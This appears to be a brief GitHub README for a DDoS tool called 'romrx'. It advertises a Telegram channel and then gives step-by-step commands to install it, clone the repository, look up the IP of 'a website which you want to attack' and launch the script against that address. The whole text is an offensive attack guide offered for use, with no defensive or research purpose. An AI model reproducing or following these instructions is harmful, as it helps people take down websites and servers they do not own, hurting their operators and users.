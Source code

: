 1. please join the my channel telegram : https://t.me/tmcyebrscreen
2. Fork it...


$ apt update
$ apt upgrade
$ apt install python
$ apt install git
$ apt install dnsutils
$ git clone https://github.com/RoMrx/ddosromrx/

the Name Server of a website which you want to attack...
To get the Name Server...just type
$ nslookup example.com
Note the IP Address of that Website

then
$ cd romrx
$ python romrx.py -s [ip Address] -t 135
example:
$ python romrx.py -s 123.45.67.89 -t 135
